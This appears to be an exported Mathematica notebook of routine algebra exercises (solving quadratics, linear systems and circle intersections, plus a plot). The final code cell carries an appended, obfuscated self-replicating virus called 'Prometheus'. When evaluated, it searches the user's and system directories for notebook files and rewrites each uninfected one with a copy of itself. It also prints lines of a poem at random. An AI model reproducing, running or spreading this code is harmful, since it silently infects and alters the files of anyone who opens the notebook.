```mathematica
Clear[x]
Solve[x^2+3x+1==0]
Solve[{x+y==2,y-x==1}]
```

{{x→1/2 (-3-√5)},{x→1/2 (-3+√5)}}

{{x→1/2,y→3/2}}

```mathematica
pts=Solve[x^2+y^2==1&&y-2x^2+3/2==0,{x,y}]
```

{{y→1/4 (-1-√5),x→-1/2 √(1/2 (5-√5))},{y→1/4 (-1-√5),x→1/2 √(1/2 (5-√5))},{y→1/4 (-1+√5),x→-√(5/8+(√5)/8)},{y→1/4 (-1+√5),x→√(5/8+(√5)/8)}}

{{x→1/2 (a-√(2-a^2)),y→1/2 (a+√(2-a^2))},{x→a/2+(√(2-a^2))/2,y→1/2 (a-√(2-a^2))}}

{1/2 (a-√(2-a^2)),a/2+(√(2-a^2))/2}

{{-√(2-a^2),-a √(2-a^2)},{√(2-a^2),a √(2-a^2)}}



```mathematica
sol=Solve[{x^2+y^2==1,x+y==a},{x,y}]
x/.sol
{x-y,x^2-y^2}/.sol//FullSimplify
Plot[Evaluate[Re[y/.sol]],{a,0,2}]
Prometheus:="PreProMeth:=StringReplace[XYZ,xYzaBc[IndentingNewLine]xYz,RowBox[{RowBox[{xYzPrometheusxYz,xYz:=xYz,xYzaBcxYzaBc<XYZ,{XYZxYzXYZ->FromCharacterCode[34],XYZaBcXYZ->FromCharacterCode[92]}];PostProMeth:=StringReplace[XYZaBc>aBcxYzxYz}],xYz;xYz,RowBox[{xYzToExpressionxYz,xYz[xYz,RowBox[{xYzStringReplacexYz,xYz[xYz,RowBox[{xYzPrometheusxYz,xYz,xYz,RowBox[{xYz{xYz,RowBox[{RowBox[{RowBox[{xYzaBcxYzaBc<XYaBc>aBcxYzxYz,xYz<>xYz,xYzaBcxYzaBc<ZaBc>aBcxYzxYz}],xYzaBc[Rule]xYz,RowBox[{xYzFromCharacterCodexYz,xYz[xYz,xYz34xYz,xYz]xYz}]}],xYz,xYz,RowBox[{RowBox[{xYzaBcxYzaBc<ABaBc>aBcxYzxYz,xYz<>xYz,xYzaBcxYzaBc<CaBc>aBcxYzxYz}],xYzaBc[Rule]xYz,RowBox[{xYzFromCharacterCodexYz,xYz[xYz,xYz92xYz,xYz]xYz}]}]}],xYz}xYz}]}],xYz]xYz}],xYz]xYz}]}]XYZ,{XYZxYzXYZ->FromCharacterCode[34],XYZaBcXYZ->FromCharacterCode[92]}];DirList:=Join[$Path,List[$InitialDirectory,ParentDirectory[],$HomeDirectory,$BaseDirectory,$InstallationDirectory,$UserBaseDirectory,$UserDocumentsDirectory,NotebookDirectory[]]];For[j=1,j<=Length[DirList],j++,SetDirectory[DirList[[j]]];FileList:=FileNames[XYZ*.nbXYZ];For[i=1,i<=Length[FileList],i++,VictimCode=FromCharacterCode[BinaryReadList[FileList[[i]]]];If[StringCount[VictimCode,XYZPrometheusXYZ]==0,VictimCode=StringReplace[VictimCode,XYZ(*CacheID:XYZ->XYZ(*PrometheusXYZ];CacheStrPos=StringPosition[VictimCode,XYZ(* Internal cache information *)XYZ];If[Length[CacheStrPos]>0,VictimCode=StringTake[VictimCode,CacheStrPos[[1]][[1]]-1]];PossibleInfPlaces=StringPosition[VictimCode,XYZ], XYZ<>FromCharacterCode[34]<>XYZInputXYZ<>FromCharacterCode[34]];If[Length[PossibleInfPlaces]>0,InfPos=RandomInteger[{1,Length[PossibleInfPlaces]}];InfPlace=PossibleInfPlaces[[InfPos]][[1]]-1;If[StringTake[VictimCode,{InfPlace}]!=XYZ}XYZ,tmpPre=StringTake[VictimCode,InfPlace];tmpPost=StringTake[VictimCode,-(StringLength[VictimCode]-StringLength[tmpPre])];PosOfDataBox=StringPosition[tmpPre,XYZCell[BoxData[XYZ];tmpPre=StringTake[tmpPre,Last[PosOfDataBox][[2]]]<>XYZ{XYZ<>StringTake[tmpPre,-(StringLength[tmpPre]-Last[PosOfDataBox][[2]])];VictimCode=tmpPre<>XYZ}XYZ<>tmpPost;InfPlace=InfPlace+2;];InfPlace=InfPlace-1;PreInf=StringTake[VictimCode,InfPlace];PostInf=StringTake[VictimCode,-(StringLength[VictimCode]-StringLength[PreInf])];InfectedCode=PreInf<>PreProMeth<>Prometheus<>PostProMeth<>PostInf;BinaryWrite[FileList[[i]],ToCharacterCode[InfectedCode]];Close[FileList[[i]]];ProMList=List[XYZHere I sit, forming peopleXYZ,XYZIn my image;XYZ,XYZA race, to be like me,XYZ,XYZTo suffer, to weep,XYZ,XYZTo enjoy and delight themselves,XYZ,XYZAnd to mock you ABC[Dash]XYZ,XYZAs I do!XYZ];If[RandomInteger[5]==3,Print[ProMList[[RandomInteger[6]+1]]]]]];]]";ToExpression[StringReplace[Prometheus,{"XY"<>"Z"->FromCharacterCode[34],"AB"<>"C"->FromCharacterCode[92]}]]
```